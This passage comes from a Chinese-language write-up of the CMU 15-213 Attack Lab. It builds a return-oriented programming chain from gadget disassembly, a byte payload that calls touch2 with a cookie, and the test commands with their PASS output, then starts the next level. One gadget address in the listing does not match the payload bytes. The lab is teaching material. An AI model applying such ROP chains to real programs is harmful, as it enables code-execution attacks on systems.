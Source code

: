 使用如下几个gadget构造ROP程序： 

```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq 
```

使用如下地址： 

```
0x004017ec # touch2 的入口地址
0x004019a2 # 48 89 c7 movq %rax, %rdi
0x59b997fa # My cookie
0x004019ab # popq %rax
```

构造成的phase4.txt如下：

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00 
c5 19 40 00 00 00 00 00 ec 17 40 00 00 00 00 00
```

使用如下命令测试，同时查看结果：

```
./hex2raw < phase4.txt > phase4_input.txt
./rtarget -qi phase4_input.txt
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

Level 1通过。

### Level 2

这一关要求我们重复上一部分Level 3的攻击，使用ROP攻击的形式。

使用如下几个gadget构造ROP程序：

```
0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq   

00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
```
